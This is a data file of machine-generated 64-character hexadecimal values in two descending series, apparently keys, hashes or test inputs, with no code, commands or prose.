0000000000000000000000000000d92efe249615e3e8da834ab4e67cc0348cc4
0000000000000000000000000000d82efe249615e3e8da834ab4e67cc0348cc4
0000000000000000000000000000d72efe249615e3e8da834ab4e67cc0348cc4
0000000000000000000000000000d62efe249615e3e8da834ab4e67cc0348cc4
0000000000000000000000000000d52efe249615e3e8da834ab4e67cc0348cc4
0000000000000000000000000000d42efe249615e3e8da834ab4e67cc0348cc4
0000000000000000000000000000d32efe249615e3e8da834ab4e67cc0348cc4
0000000000000000000000000000d22efe249615e3e8da834ab4e67cc0348cc4
0000000000000000000000000000d12efe249615e3e8da834ab4e67cc0348cc4
0000000000000000000000000000d02efe249615e3e8da834ab4e67cc0348cc4
0000000000000000000000000000cf2efe249615e3e8da834ab4e67cc0348cc4
0000000000000000000000000000ce2efe249615e3e8da834ab4e67cc0348cc4
0000000000000000000000000000cd2efe249615e3e8da834ab4e67cc0348cc4
0000000000000000000000000000cc2efe249615e3e8da834ab4e67cc0348cc4
0000000000000000000000000000cb2efe249615e3e8da834ab4e67cc0348cc4
0000000000000000000000000000ca2efe249615e3e8da834ab4e67cc0348cc4
0000000000000000000000000000c92efe249615e3e8da834ab4e67cc0348cc4
0000000000000000000000000000c82efe249615e3e8da834ab4e67cc0348cc4
0000000000000000000000000000c72efe249615e3e8da834ab4e67cc0348cc4
0000000000000000000000000000c62efe249615e3e8da834ab4e67cc0348cc4
0000000000000000000000000000c52efe249615e3e8da834ab4e67cc0348cc4
0000000000000000000000000000c42efe249615e3e8da834ab4e67cc0348cc4
0000000000000000000000000000c32efe249615e3e8da834ab4e67cc0348cc4
0000000000000000000000000000c22efe249615e3e8da834ab4e67cc0348cc4
0000000000000000000000000000c12efe249615e3e8da834ab4e67cc0348cc4
0000000000000000000000000000c02efe249615e3e8da834ab4e67cc0348cc4
0000000000000000000000000000bf2efe249615e3e8da834ab4e67cc0348cc4
0000000000000000000000000000be2efe249615e3e8da834ab4e67cc0348cc4
0000000000000000000000000000bd2efe249615e3e8da834ab4e67cc0348cc4
0000000000000000000000000000bc2efe249615e3e8da834ab4e67cc0348cc4
0000000000000000000000000000bb2efe249615e3e8da834ab4e67cc0348cc4
0000000000000000000000000000ba2efe249615e3e8da834ab4e67cc0348cc4
0000000000000000000000000000b92efe249615e3e8da834ab4e67cc0348cc4
0000000000000000000000000000b82efe249615e3e8da834ab4e67cc0348cc4
0000000000000000000000000000b72efe249615e3e8da834ab4e67cc0348cc4
0000000000000000000000000000b62efe249615e3e8da834ab4e67cc0348cc4
0000000000000000000000000000b52efe249615e3e8da834ab4e67cc0348cc4
0000000000000000000000000000b42efe249615e3e8da834ab4e67cc0348cc4
0000000000000000000000000000b32efe249615e3e8da834ab4e67cc0348cc4
0000000000000000000000000000b22efe249615e3e8da834ab4e67cc0348cc4
0000000000000000000000000000b12efe249615e3e8da834ab4e67cc0348cc4
0000000000000000000000000000b02efe249615e3e8da834ab4e67cc0348cc4
0000000000000000000000000000af2efe249615e3e8da834ab4e67cc0348cc4
0000000000000000000000000000ae2efe249615e3e8da834ab4e67cc0348cc4
0000000000000000000000000000ad2efe249615e3e8da834ab4e67cc0348cc4
0000000000000000000000000000ac2efe249615e3e8da834ab4e67cc0348cc4
0000000000000000000000000000ab2efe249615e3e8da834ab4e67cc0348cc4
0000000000000000000000000000aa2efe249615e3e8da834ab4e67cc0348cc4
0000000000000000000000000000a92efe249615e3e8da834ab4e67cc0348cc4
0000000000000000000000000000a82efe249615e3e8da834ab4e67cc0348cc4
0000000000000000000000000000a72efe249615e3e8da834ab4e67cc0348cc4
0000000000000000000000000000a62efe249615e3e8da834ab4e67cc0348cc4
0000000000000000000000000000a52efe249615e3e8da834ab4e67cc0348cc4
0000000000000000000000000000a42efe249615e3e8da834ab4e67cc0348cc4
0000000000000000000000000000a32efe249615e3e8da834ab4e67cc0348cc4
0000000000000000000000000000a22efe249615e3e8da834ab4e67cc0348cc4
0000000000000000000000000000a12efe249615e3e8da834ab4e67cc0348cc4
0000000000000000000000000000a02efe249615e3e8da834ab4e67cc0348cc4
00000000000000000000000000009f2efe249615e3e8da834ab4e67cc0348cc4
00000000000000000000000000009e2efe249615e3e8da834ab4e67cc0348cc4
00000000000000000000000000009d2efe249615e3e8da834ab4e67cc0348cc4
00000000000000000000000000009c2efe249615e3e8da834ab4e67cc0348cc4
00000000000000000000000000009b2efe249615e3e8da834ab4e67cc0348cc4
00000000000000000000000000009a2efe249615e3e8da834ab4e67cc0348cc4
0000000000000000000000000000992efe249615e3e8da834ab4e67cc0348cc4
0000000000000000000000000000982efe249615e3e8da834ab4e67cc0348cc4
0000000000000000000000000000972efe249615e3e8da834ab4e67cc0348cc4
0000000000000000000000000000962efe249615e3e8da834ab4e67cc0348cc4
0000000000000000000000000000952efe249615e3e8da834ab4e67cc0348cc4
0000000000000000000000000000942efe249615e3e8da834ab4e67cc0348cc4
0000000000000000000000000000932efe249615e3e8da834ab4e67cc0348cc4
0000000000000000000000000000922efe249615e3e8da834ab4e67cc0348cc4
0000000000000000000000000000912efe249615e3e8da834ab4e67cc0348cc4
0000000000000000000000000000902efe249615e3e8da834ab4e67cc0348cc4
00000000000000000000000000008f2efe249615e3e8da834ab4e67cc0348cc4
00000000000000000000000000008e2efe249615e3e8da834ab4e67cc0348cc4
00000000000000000000000000008d2efe249615e3e8da834ab4e67cc0348cc4
00000000000000000000000000008c2efe249615e3e8da834ab4e67cc0348cc4
00000000000000000000000000008b2efe249615e3e8da834ab4e67cc0348cc4
00000000000000000000000000008a2efe249615e3e8da834ab4e67cc0348cc4
0000000000000000000000000000892efe249615e3e8da834ab4e67cc0348cc4
0000000000000000000000000000882efe249615e3e8da834ab4e67cc0348cc4
0000000000000000000000000000872efe249615e3e8da834ab4e67cc0348cc4
0000000000000000000000000000862efe249615e3e8da834ab4e67cc0348cc4
0000000000000000000000000000852efe249615e3e8da834ab4e67cc0348cc4
0000000000000000000000000000842efe249615e3e8da834ab4e67cc0348cc4
0000000000000000000000000000832efe249615e3e8da834ab4e67cc0348cc4
0000000000000000000000000000822efe249615e3e8da834ab4e67cc0348cc4
0000000000000000000000000000812efe249615e3e8da834ab4e67cc0348cc4
0000000000000000000000000000802efe249615e3e8da834ab4e67cc0348cc4
00000000000000000000000000007f2efe249615e3e8da834ab4e67cc0348cc4
00000000000000000000000000007e2efe249615e3e8da834ab4e67cc0348cc4
00000000000000000000000000007d2efe249615e3e8da834ab4e67cc0348cc4
00000000000000000000000000007c2efe249615e3e8da834ab4e67cc0348cc4
00000000000000000000000000007b2efe249615e3e8da834ab4e67cc0348cc4
00000000000000000000000000007a2efe249615e3e8da834ab4e67cc0348cc4
0000000000000000000000000000792efe249615e3e8da834ab4e67cc0348cc4
0000000000000000000000000000782efe249615e3e8da834ab4e67cc0348cc4
0000000000000000000000000000772efe249615e3e8da834ab4e67cc0348cc4
0000000000000000000000000000762efe249615e3e8da834ab4e67cc0348cc4
0000000000000000000000000000752efe249615e3e8da834ab4e67cc0348cc4
0000000000000000000000000000742efe249615e3e8da834ab4e67cc0348cc4
0000000000000000000000000000732efe249615e3e8da834ab4e67cc0348cc4
0000000000000000000000000000722efe249615e3e8da834ab4e67cc0348cc4
0000000000000000000000000000712efe249615e3e8da834ab4e67cc0348cc4
0000000000000000000000000000702efe249615e3e8da834ab4e67cc0348cc4
00000000000000000000000000006f2efe249615e3e8da834ab4e67cc0348cc4
00000000000000000000000000006e2efe249615e3e8da834ab4e67cc0348cc4
00000000000000000000000000006d2efe249615e3e8da834ab4e67cc0348cc4
00000000000000000000000000006c2efe249615e3e8da834ab4e67cc0348cc4
00000000000000000000000000006b2efe249615e3e8da834ab4e67cc0348cc4
00000000000000000000000000006a2efe249615e3e8da834ab4e67cc0348cc4
0000000000000000000000000000692efe249615e3e8da834ab4e67cc0348cc4
0000000000000000000000000000682efe249615e3e8da834ab4e67cc0348cc4
0000000000000000000000000000672efe249615e3e8da834ab4e67cc0348cc4
0000000000000000000000000000662efe249615e3e8da834ab4e67cc0348cc4
0000000000000000000000000000652efe249615e3e8da834ab4e67cc0348cc4
0000000000000000000000000000642efe249615e3e8da834ab4e67cc0348cc4
0000000000000000000000000000632efe249615e3e8da834ab4e67cc0348cc4
0000000000000000000000000000622efe249615e3e8da834ab4e67cc0348cc4
0000000000000000000000000000612efe249615e3e8da834ab4e67cc0348cc4
0000000000000000000000000000602efe249615e3e8da834ab4e67cc0348cc4
00000000000000000000000000005f2efe249615e3e8da834ab4e67cc0348cc4
00000000000000000000000000005e2efe249615e3e8da834ab4e67cc0348cc4
00000000000000000000000000005d2efe249615e3e8da834ab4e67cc0348cc4
00000000000000000000000000005c2efe249615e3e8da834ab4e67cc0348cc4
00000000000000000000000000005b2efe249615e3e8da834ab4e67cc0348cc4
00000000000000000000000000005a2efe249615e3e8da834ab4e67cc0348cc4
0000000000000000000000000000592efe249615e3e8da834ab4e67cc0348cc4
0000000000000000000000000000582efe249615e3e8da834ab4e67cc0348cc4
0000000000000000000000000000572efe249615e3e8da834ab4e67cc0348cc4
0000000000000000000000000000562efe249615e3e8da834ab4e67cc0348cc4
0000000000000000000000000000552efe249615e3e8da834ab4e67cc0348cc4
0000000000000000000000000000542efe249615e3e8da834ab4e67cc0348cc4
0000000000000000000000000000532efe249615e3e8da834ab4e67cc0348cc4
0000000000000000000000000000522efe249615e3e8da834ab4e67cc0348cc4
0000000000000000000000000000512efe249615e3e8da834ab4e67cc0348cc4
0000000000000000000000000000502efe249615e3e8da834ab4e67cc0348cc4
00000000000000000000000000004f2efe249615e3e8da834ab4e67cc0348cc4
00000000000000000000000000004e2efe249615e3e8da834ab4e67cc0348cc4
00000000000000000000000000004d2efe249615e3e8da834ab4e67cc0348cc4
00000000000000000000000000004c2efe249615e3e8da834ab4e67cc0348cc4
00000000000000000000000000004b2efe249615e3e8da834ab4e67cc0348cc4
00000000000000000000000000004a2efe249615e3e8da834ab4e67cc0348cc4
0000000000000000000000000000492efe249615e3e8da834ab4e67cc0348cc4
0000000000000000000000000000482efe249615e3e8da834ab4e67cc0348cc4
0000000000000000000000000000472efe249615e3e8da834ab4e67cc0348cc4
0000000000000000000000000000462efe249615e3e8da834ab4e67cc0348cc4
0000000000000000000000000000452efe249615e3e8da834ab4e67cc0348cc4
0000000000000000000000000000442efe249615e3e8da834ab4e67cc0348cc4
0000000000000000000000000000432efe249615e3e8da834ab4e67cc0348cc4
0000000000000000000000000000422efe249615e3e8da834ab4e67cc0348cc4
0000000000000000000000000000412efe249615e3e8da834ab4e67cc0348cc4
0000000000000000000000000000402efe249615e3e8da834ab4e67cc0348cc4
00000000000000000000000000003f2efe249615e3e8da834ab4e67cc0348cc4
00000000000000000000000000003e2efe249615e3e8da834ab4e67cc0348cc4
00000000000000000000000000003d2efe249615e3e8da834ab4e67cc0348cc4
00000000000000000000000000003c2efe249615e3e8da834ab4e67cc0348cc4
00000000000000000000000000003b2efe249615e3e8da834ab4e67cc0348cc4
00000000000000000000000000003a2efe249615e3e8da834ab4e67cc0348cc4
0000000000000000000000000000392efe249615e3e8da834ab4e67cc0348cc4
0000000000000000000000000000382efe249615e3e8da834ab4e67cc0348cc4
0000000000000000000000000000372efe249615e3e8da834ab4e67cc0348cc4
0000000000000000000000000000362efe249615e3e8da834ab4e67cc0348cc4
0000000000000000000000000000352efe249615e3e8da834ab4e67cc0348cc4
0000000000000000000000000000342efe249615e3e8da834ab4e67cc0348cc4
0000000000000000000000000000332efe249615e3e8da834ab4e67cc0348cc4
0000000000000000000000000000322efe249615e3e8da834ab4e67cc0348cc4
0000000000000000000000000000312efe249615e3e8da834ab4e67cc0348cc4
0000000000000000000000000000302efe249615e3e8da834ab4e67cc0348cc4
00000000000000000000000000002f2efe249615e3e8da834ab4e67cc0348cc4
00000000000000000000000000002e2efe249615e3e8da834ab4e67cc0348cc4
00000000000000000000000000002d2efe249615e3e8da834ab4e67cc0348cc4
00000000000000000000000000002c2efe249615e3e8da834ab4e67cc0348cc4
00000000000000000000000000002b2efe249615e3e8da834ab4e67cc0348cc4
00000000000000000000000000002a2efe249615e3e8da834ab4e67cc0348cc4
0000000000000000000000000000292efe249615e3e8da834ab4e67cc0348cc4
0000000000000000000000000000282efe249615e3e8da834ab4e67cc0348cc4
0000000000000000000000000000272efe249615e3e8da834ab4e67cc0348cc4
0000000000000000000000000000262efe249615e3e8da834ab4e67cc0348cc4
0000000000000000000000000000252efe249615e3e8da834ab4e67cc0348cc4
0000000000000000000000000000242efe249615e3e8da834ab4e67cc0348cc4
0000000000000000000000000000232efe249615e3e8da834ab4e67cc0348cc4
0000000000000000000000000000222efe249615e3e8da834ab4e67cc0348cc4
0000000000000000000000000000212efe249615e3e8da834ab4e67cc0348cc4
0000000000000000000000000000202efe249615e3e8da834ab4e67cc0348cc4
00000000000000000000000000001f2efe249615e3e8da834ab4e67cc0348cc4
00000000000000000000000000001e2efe249615e3e8da834ab4e67cc0348cc4
00000000000000000000000000001d2efe249615e3e8da834ab4e67cc0348cc4
00000000000000000000000000001c2efe249615e3e8da834ab4e67cc0348cc4
00000000000000000000000000001b2efe249615e3e8da834ab4e67cc0348cc4
00000000000000000000000000001a2efe249615e3e8da834ab4e67cc0348cc4
0000000000000000000000000000192efe249615e3e8da834ab4e67cc0348cc4
0000000000000000000000000000182efe249615e3e8da834ab4e67cc0348cc4
0000000000000000000000000000172efe249615e3e8da834ab4e67cc0348cc4
0000000000000000000000000000162efe249615e3e8da834ab4e67cc0348cc4
0000000000000000000000000000152efe249615e3e8da834ab4e67cc0348cc4
0000000000000000000000000000142efe249615e3e8da834ab4e67cc0348cc4
0000000000000000000000000000132efe249615e3e8da834ab4e67cc0348cc4
0000000000000000000000000000122efe249615e3e8da834ab4e67cc0348cc4
0000000000000000000000000000112efe249615e3e8da834ab4e67cc0348cc4
0000000000000000000000000000102efe249615e3e8da834ab4e67cc0348cc4
00000000000000000000000000000f2efe249615e3e8da834ab4e67cc0348cc4
00000000000000000000000000000e2efe249615e3e8da834ab4e67cc0348cc4
00000000000000000000000000000d2efe249615e3e8da834ab4e67cc0348cc4
00000000000000000000000000000c2efe249615e3e8da834ab4e67cc0348cc4
00000000000000000000000000000b2efe249615e3e8da834ab4e67cc0348cc4
00000000000000000000000000000a2efe249615e3e8da834ab4e67cc0348cc4
0000000000000000000000000000092efe249615e3e8da834ab4e67cc0348cc4
0000000000000000000000000000082efe249615e3e8da834ab4e67cc0348cc4
0000000000000000000000000000072efe249615e3e8da834ab4e67cc0348cc4
0000000000000000000000000000062efe249615e3e8da834ab4e67cc0348cc4
0000000000000000000000000000052efe249615e3e8da834ab4e67cc0348cc4
0000000000000000000000000000042efe249615e3e8da834ab4e67cc0348cc4
00000000000000000000000000ff052ffe249615e3e8da834ab4e67cc0348cc4
00000000000000000000000000fe052ffe249615e3e8da834ab4e67cc0348cc4
00000000000000000000000000fd052ffe249615e3e8da834ab4e67cc0348cc4
00000000000000000000000000fc052ffe249615e3e8da834ab4e67cc0348cc4
00000000000000000000000000fb052ffe249615e3e8da834ab4e67cc0348cc4
00000000000000000000000000fa052ffe249615e3e8da834ab4e67cc0348cc4
00000000000000000000000000f9052ffe249615e3e8da834ab4e67cc0348cc4
00000000000000000000000000f8052ffe249615e3e8da834ab4e67cc0348cc4
00000000000000000000000000f7052ffe249615e3e8da834ab4e67cc0348cc4
00000000000000000000000000f6052ffe249615e3e8da834ab4e67cc0348cc4
00000000000000000000000000f5052ffe249615e3e8da834ab4e67cc0348cc4
00000000000000000000000000f4052ffe249615e3e8da834ab4e67cc0348cc4
00000000000000000000000000f3052ffe249615e3e8da834ab4e67cc0348cc4
00000000000000000000000000f2052ffe249615e3e8da834ab4e67cc0348cc4
00000000000000000000000000f1052ffe249615e3e8da834ab4e67cc0348cc4
00000000000000000000000000f0052ffe249615e3e8da834ab4e67cc0348cc4
00000000000000000000000000ef052ffe249615e3e8da834ab4e67cc0348cc4
00000000000000000000000000ee052ffe249615e3e8da834ab4e67cc0348cc4
00000000000000000000000000ed052ffe249615e3e8da834ab4e67cc0348cc4
00000000000000000000000000ec052ffe249615e3e8da834ab4e67cc0348cc4
00000000000000000000000000eb052ffe249615e3e8da834ab4e67cc0348cc4
00000000000000000000000000ea052ffe249615e3e8da834ab4e67cc0348cc4
00000000000000000000000000e9052ffe249615e3e8da834ab4e67cc0348cc4
00000000000000000000000000e8052ffe249615e3e8da834ab4e67cc0348cc4
00000000000000000000000000e7052ffe249615e3e8da834ab4e67cc0348cc4
00000000000000000000000000e6052ffe249615e3e8da834ab4e67cc0348cc4
00000000000000000000000000e5052ffe249615e3e8da834ab4e67cc0348cc4
00000000000000000000000000e4052ffe249615e3e8da834ab4e67cc0348cc4
00000000000000000000000000e3052ffe249615e3e8da834ab4e67cc0348cc4
00000000000000000000000000e2052ffe249615e3e8da834ab4e67cc0348cc4
00000000000000000000000000e1052ffe249615e3e8da834ab4e67cc0348cc4
00000000000000000000000000e0052ffe249615e3e8da834ab4e67cc0348cc4
00000000000000000000000000df052ffe249615e3e8da834ab4e67cc0348cc4
00000000000000000000000000de052ffe249615e3e8da834ab4e67cc0348cc4
00000000000000000000000000dd052ffe249615e3e8da834ab4e67cc0348cc4
00000000000000000000000000dc052ffe249615e3e8da834ab4e67cc0348cc4
00000000000000000000000000db052ffe249615e3e8da834ab4e67cc0348cc4
00000000000000000000000000da052ffe249615e3e8da834ab4e67cc0348cc4
00000000000000000000000000d9052ffe249615e3e8da834ab4e67cc0348cc4
00000000000000000000000000d8052ffe249615e3e8da834ab4e67cc0348cc4
00000000000000000000000000d7052ffe249615e3e8da834ab4e67cc0348cc4
00000000000000000000000000d6052ffe249615e3e8da834ab4e67cc0348cc4
00000000000000000000000000d5052ffe249615e3e8da834ab4e67cc0348cc4
00000000000000000000000000d4052ffe249615e3e8da834ab4e67cc0348cc4
00000000000000000000000000d3052ffe249615e3e8da834ab4e67cc0348cc4
00000000000000000000000000d2052ffe249615e3e8da834ab4e67cc0348cc4
00000000000000000000000000d1052ffe249615e3e8da834ab4e67cc0348cc4
00000000000000000000000000d0052ffe249615e3e8da834ab4e67cc0348cc4
00000000000000000000000000cf052ffe249615e3e8da834ab4e67cc0348cc4
00000000000000000000000000ce052ffe249615e3e8da834ab4e67cc0348cc4
00000000000000000000000000cd052ffe249615e3e8da834ab4e67cc0348cc4
00000000000000000000000000cc052ffe249615e3e8da834ab4e67cc0348cc4
00000000000000000000000000cb052ffe249615e3e8da834ab4e67cc0348cc4
00000000000000000000000000ca052ffe249615e3e8da834ab4e67cc0348cc4
00000000000000000000000000c9052ffe249615e3e8da834ab4e67cc0348cc4
00000000000000000000000000c8052ffe249615e3e8da834ab4e67cc0348cc4
00000000000000000000000000c7052ffe249615e3e8da834ab4e67cc0348cc4
00000000000000000000000000c6052ffe249615e3e8da834ab4e67cc0348cc4
00000000000000000000000000c5052ffe249615e3e8da834ab4e67cc0348cc4
00000000000000000000000000c4052ffe249615e3e8da834ab4e67cc0348cc4
00000000000000000000000000c3052ffe249615e3e8da834ab4e67cc0348cc4
00000000000000000000000000c2052ffe249615e3e8da834ab4e67cc0348cc4
00000000000000000000000000c1052ffe249615e3e8da834ab4e67cc0348cc4
00000000000000000000000000c0052ffe249615e3e8da834ab4e67cc0348cc4
00000000000000000000000000bf052ffe249615e3e8da834ab4e67cc0348cc4
00000000000000000000000000be052ffe249615e3e8da834ab4e67cc0348cc4
00000000000000000000000000bd052ffe249615e3e8da834ab4e67cc0348cc4
00000000000000000000000000bc052ffe249615e3e8da834ab4e67cc0348cc4
00000000000000000000000000bb052ffe249615e3e8da834ab4e67cc0348cc4
00000000000000000000000000ba052ffe249615e3e8da834ab4e67cc0348cc4
00000000000000000000000000b9052ffe249615e3e8da834ab4e67cc0348cc4
00000000000000000000000000b8052ffe249615e3e8da834ab4e67cc0348cc4
00000000000000000000000000b7052ffe249615e3e8da834ab4e67cc0348cc4
00000000000000000000000000b6052ffe249615e3e8da834ab4e67cc0348cc4
00000000000000000000000000b5052ffe249615e3e8da834ab4e67cc0348cc4
00000000000000000000000000b4052ffe249615e3e8da834ab4e67cc0348cc4
00000000000000000000000000b3052ffe249615e3e8da834ab4e67cc0348cc4
00000000000000000000000000b2052ffe249615e3e8da834ab4e67cc0348cc4
00000000000000000000000000b1052ffe249615e3e8da834ab4e67cc0348cc4
00000000000000000000000000b0052ffe249615e3e8da834ab4e67cc0348cc4
00000000000000000000000000af052ffe249615e3e8da834ab4e67cc0348cc4
00000000000000000000000000ae052ffe249615e3e8da834ab4e67cc0348cc4
00000000000000000000000000ad052ffe249615e3e8da834ab4e67cc0348cc4
00000000000000000000000000ac052ffe249615e3e8da834ab4e67cc0348cc4
00000000000000000000000000ab052ffe249615e3e8da834ab4e67cc0348cc4
00000000000000000000000000aa052ffe249615e3e8da834ab4e67cc0348cc4
00000000000000000000000000a9052ffe249615e3e8da834ab4e67cc0348cc4
00000000000000000000000000a8052ffe249615e3e8da834ab4e67cc0348cc4
00000000000000000000000000a7052ffe249615e3e8da834ab4e67cc0348cc4
00000000000000000000000000a6052ffe249615e3e8da834ab4e67cc0348cc4
00000000000000000000000000a5052ffe249615e3e8da834ab4e67cc0348cc4
00000000000000000000000000a4052ffe249615e3e8da834ab4e67cc0348cc4
00000000000000000000000000a3052ffe249615e3e8da834ab4e67cc0348cc4
00000000000000000000000000a2052ffe249615e3e8da834ab4e67cc0348cc4
00000000000000000000000000a1052ffe249615e3e8da834ab4e67cc0348cc4
00000000000000000000000000a0052ffe249615e3e8da834ab4e67cc0348cc4
000000000000000000000000009f052ffe249615e3e8da834ab4e67cc0348cc4
000000000000000000000000009e052ffe249615e3e8da834ab4e67cc0348cc4
000000000000000000000000009d052ffe249615e3e8da834ab4e67cc0348cc4
000000000000000000000000009c052ffe249615e3e8da834ab4e67cc0348cc4
000000000000000000000000009b052ffe249615e3e8da834ab4e67cc0348cc4
000000000000000000000000009a052ffe249615e3e8da834ab4e67cc0348cc4
0000000000000000000000000099052ffe249615e3e8da834ab4e67cc0348cc4
0000000000000000000000000098052ffe249615e3e8da834ab4e67cc0348cc4
0000000000000000000000000097052ffe249615e3e8da834ab4e67cc0348cc4
0000000000000000000000000096052ffe249615e3e8da834ab4e67cc0348cc4
0000000000000000000000000095052ffe249615e3e8da834ab4e67cc0348cc4
0000000000000000000000000094052ffe249615e3e8da834ab4e67cc0348cc4
0000000000000000000000000093052ffe249615e3e8da834ab4e67cc0348cc4
0000000000000000000000000092052ffe249615e3e8da834ab4e67cc0348cc4
0000000000000000000000000091052ffe249615e3e8da834ab4e67cc0348cc4
0000000000000000000000000090052ffe249615e3e8da834ab4e67cc0348cc4
000000000000000000000000008f052ffe249615e3e8da834ab4e67cc0348cc4
000000000000000000000000008e052ffe249615e3e8da834ab4e67cc0348cc4
000000000000000000000000008d052ffe249615e3e8da834ab4e67cc0348cc4
000000000000000000000000008c052ffe249615e3e8da834ab4e67cc0348cc4
000000000000000000000000008b052ffe249615e3e8da834ab4e67cc0348cc4
000000000000000000000000008a052ffe249615e3e8da834ab4e67cc0348cc4
0000000000000000000000000089052ffe249615e3e8da834ab4e67cc0348cc4
0000000000000000000000000088052ffe249615e3e8da834ab4e67cc0348cc4
0000000000000000000000000087052ffe249615e3e8da834ab4e67cc0348cc4
0000000000000000000000000086052ffe249615e3e8da834ab4e67cc0348cc4
0000000000000000000000000085052ffe249615e3e8da834ab4e67cc0348cc4
0000000000000000000000000084052ffe249615e3e8da834ab4e67cc0348cc4
0000000000000000000000000083052ffe249615e3e8da834ab4e67cc0348cc4
0000000000000000000000000082052ffe249615e3e8da834ab4e67cc0348cc4
0000000000000000000000000081052ffe249615e3e8da834ab4e67cc0348cc4
0000000000000000000000000080052ffe249615e3e8da834ab4e67cc0348cc4
000000000000000000000000007f052ffe249615e3e8da834ab4e67cc0348cc4
000000000000000000000000007e052ffe249615e3e8da834ab4e67cc0348cc4
000000000000000000000000007d052ffe249615e3e8da834ab4e67cc0348cc4
000000000000000000000000007c052ffe249615e3e8da834ab4e67cc0348cc4
000000000000000000000000007b052ffe249615e3e8da834ab4e67cc0348cc4
000000000000000000000000007a052ffe249615e3e8da834ab4e67cc0348cc4
0000000000000000000000000079052ffe249615e3e8da834ab4e67cc0348cc4
0000000000000000000000000078052ffe249615e3e8da834ab4e67cc0348cc4
0000000000000000000000000077052ffe249615e3e8da834ab4e67cc0348cc4
0000000000000000000000000076052ffe249615e3e8da834ab4e67cc0348cc4
0000000000000000000000000075052ffe249615e3e8da834ab4e67cc0348cc4
0000000000000000000000000074052ffe249615e3e8da834ab4e67cc0348cc4
0000000000000000000000000073052ffe249615e3e8da834ab4e67cc0348cc4
0000000000000000000000000072052ffe249615e3e8da834ab4e67cc0348cc4
0000000000000000000000000071052ffe249615e3e8da834ab4e67cc0348cc4
0000000000000000000000000070052ffe249615e3e8da834ab4e67cc0348cc4
000000000000000000000000006f052ffe249615e3e8da834ab4e67cc0348cc4
000000000000000000000000006e052ffe249615e3e8da834ab4e67cc0348cc4
000000000000000000000000006d052ffe249615e3e8da834ab4e67cc0348cc4
000000000000000000000000006c052ffe249615e3e8da834ab4e67cc0348cc4
000000000000000000000000006b052ffe249615e3e8da834ab4e67cc0348cc4
000000000000000000000000006a052ffe249615e3e8da834ab4e67cc0348cc4
0000000000000000000000000069052ffe249615e3e8da834ab4e67cc0348cc4
0000000000000000000000000068052ffe249615e3e8da834ab4e67cc0348cc4
0000000000000000000000000067052ffe249615e3e8da834ab4e67cc0348cc4
0000000000000000000000000066052ffe249615e3e8da834ab4e67cc0348cc4
0000000000000000000000000065052ffe249615e3e8da834ab4e67cc0348cc4
0000000000000000000000000064052ffe249615e3e8da834ab4e67cc0348cc4
0000000000000000000000000063052ffe249615e3e8da834ab4e67cc0348cc4
0000000000000000000000000062052ffe249615e3e8da834ab4e67cc0348cc4
0000000000000000000000000061052ffe249615e3e8da834ab4e67cc0348cc4
0000000000000000000000000060052ffe249615e3e8da834ab4e67cc0348cc4
000000000000000000000000005f052ffe249615e3e8da834ab4e67cc0348cc4
000000000000000000000000005e052ffe249615e3e8da834ab4e67cc0348cc4
000000000000000000000000005d052ffe249615e3e8da834ab4e67cc0348cc4
000000000000000000000000005c052ffe249615e3e8da834ab4e67cc0348cc4
000000000000000000000000005b052ffe249615e3e8da834ab4e67cc0348cc4
000000000000000000000000005a052ffe249615e3e8da834ab4e67cc0348cc4
0000000000000000000000000059052ffe249615e3e8da834ab4e67cc0348cc4
0000000000000000000000000058052ffe249615e3e8da834ab4e67cc0348cc4
0000000000000000000000000057052ffe249615e3e8da834ab4e67cc0348cc4
0000000000000000000000000056052ffe249615e3e8da834ab4e67cc0348cc4
0000000000000000000000000055052ffe249615e3e8da834ab4e67cc0348cc4
0000000000000000000000000054052ffe249615e3e8da834ab4e67cc0348cc4
0000000000000000000000000053052ffe249615e3e8da834ab4e67cc0348cc4
0000000000000000000000000052052ffe249615e3e8da834ab4e67cc0348cc4
0000000000000000000000000051052ffe249615e3e8da834ab4e67cc0348cc4
0000000000000000000000000050052ffe249615e3e8da834ab4e67cc0348cc4
000000000000000000000000004f052ffe249615e3e8da834ab4e67cc0348cc4
000000000000000000000000004e052ffe249615e3e8da834ab4e67cc0348cc4
000000000000000000000000004d052ffe249615e3e8da834ab4e67cc0348cc4
000000000000000000000000004c052ffe249615e3e8da834ab4e67cc0348cc4
000000000000000000000000004b052ffe249615e3e8da834ab4e67cc0348cc4
000000000000000000000000004a052ffe249615e3e8da834ab4e67cc0348cc4
0000000000000000000000000049052ffe249615e3e8da834ab4e67cc0348cc4
0000000000000000000000000048052ffe249615e3e8da834ab4e67cc0348cc4
0000000000000000000000000047052ffe249615e3e8da834ab4e67cc0348cc4
0000000000000000000000000046052ffe249615e3e8da834ab4e67cc0348cc4
0000000000000000000000000045052ffe249615e3e8da834ab4e67cc0348cc4
0000000000000000000000000044052ffe249615e3e8da834ab4e67cc0348cc4
0000000000000000000000000043052ffe249615e3e8da834ab4e67cc0348cc4
0000000000000000000000000042052ffe249615e3e8da834ab4e67cc0348cc4
0000000000000000000000000041052ffe249615e3e8da834ab4e67cc0348cc4
0000000000000000000000000040052ffe249615e3e8da834ab4e67cc0348cc4
000000000000000000000000003f052ffe249615e3e8da834ab4e67cc0348cc4
000000000000000000000000003e052ffe249615e3e8da834ab4e67cc0348cc4
000000000000000000000000003d052ffe249615e3e8da834ab4e67cc0348cc4
000000000000000000000000003c052ffe249615e3e8da834ab4e67cc0348cc4
000000000000000000000000003b052ffe249615e3e8da834ab4e67cc0348cc4
000000000000000000000000003a052ffe249615e3e8da834ab4e67cc0348cc4
0000000000000000000000000039052ffe249615e3e8da834ab4e67cc0348cc4
0000000000000000000000000038052ffe249615e3e8da834ab4e67cc0348cc4
0000000000000000000000000037052ffe249615e3e8da834ab4e67cc0348cc4
0000000000000000000000000036052ffe249615e3e8da834ab4e67cc0348cc4
0000000000000000000000000035052ffe249615e3e8da834ab4e67cc0348cc4
0000000000000000000000000034052ffe249615e3e8da834ab4e67cc0348cc4
0000000000000000000000000033052ffe249615e3e8da834ab4e67cc0348cc4
0000000000000000000000000032052ffe249615e3e8da834ab4e67cc0348cc4
0000000000000000000000000031052ffe249615e3e8da834ab4e67cc0348cc4
0000000000000000000000000030052ffe249615e3e8da834ab4e67cc0348cc4
000000000000000000000000002f052ffe249615e3e8da834ab4e67cc0348cc4
000000000000000000000000002e052ffe249615e3e8da834ab4e67cc0348cc4
000000000000000000000000002d052ffe249615e3e8da834ab4e67cc0348cc4
000000000000000000000000002c052ffe249615e3e8da834ab4e67cc0348cc4
000000000000000000000000002b052ffe249615e3e8da834ab4e67cc0348cc4
000000000000000000000000002a052ffe249615e3e8da834ab4e67cc0348cc4
